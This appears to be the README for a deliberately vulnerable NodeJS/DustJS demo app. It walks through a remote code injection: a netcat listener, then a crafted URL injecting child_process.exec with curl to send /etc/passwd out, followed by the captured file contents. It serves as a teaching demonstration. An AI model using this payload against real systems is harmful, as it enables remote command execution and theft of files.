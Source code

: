 # Vulnerable Favorites Service

This service is a dummy favorites service written in NodeJS and using the DustJS framework.

There is a deliberate vulnerability in this application which allows remote code injection due to an eval bug in DustJS.

**NOTE:** This vulnerability dates back to 2014 and has since been patched, this is only for information purposes to highlight how code injection can be used to bypass perimeter firewalls.

# WARNING
This service is for demonstration purposes only and should not be deployed to a production environment!

# Running the service - simple example

First start the service:

```bash
$ yarn start
yarn run v1.13.0
warning package.json: No license field
$ node ./app.js
Example app listening on port 3000!
```

Then run netcat to accept data from the vulnerability on port 5000

```bash
$ nc -lv -p 5000
listening on [any] 5000 ...
```

Send a malformed request to the service which lists /etc/passwd and forwards this to localhost:5000 where your netcat server is running

```
http://localhost:3000/?device[]=x&device[]=y%27-require(%27child_process%27).exec(%27curl+-F+%22x=`cat+/etc/passwd`%22+localhost:5000%27)-%27
```

You should see the following response in the netcat output

```bash
connect to [127.0.0.1] from localhost [127.0.0.1] 35218
POST / HTTP/1.1
Host: localhost:5000
User-Agent: curl/7.52.1
Accept: */*
Content-Length: 1734
Expect: 100-continue
Content-Type: multipart/form-data; boundary=------------------------9a601d056e16f015

--------------------------9a601d056e16f015
Content-Disposition: form-data; name="x"

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/bin/false
systemd-timesync:x:101:104:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:102:105:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:103:106:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:104:107:systemd Bus Proxy,,,:/run/systemd:/bin/false
messagebus:x:105:108::/var/run/dbus:/bin/false
rtkit:x:106:109:RealtimeKit,,,:/proc:/bin/false
sshd:x:107:65534::/run/sshd:/usr/sbin/nologin
pulse:x:108:110:PulseAudio daemon,,,:/var/run/pulse:/bin/false
android-root:x:655360:655360::/dev/null:/bin/false
jacksonnic:x:1000:1000::/home/jacksonnic:/usr/bin/zsh
Debian-exim:x:109:112::/var/spool/exim4:/bin/false
--------------------------9a601d056e16f015--
```
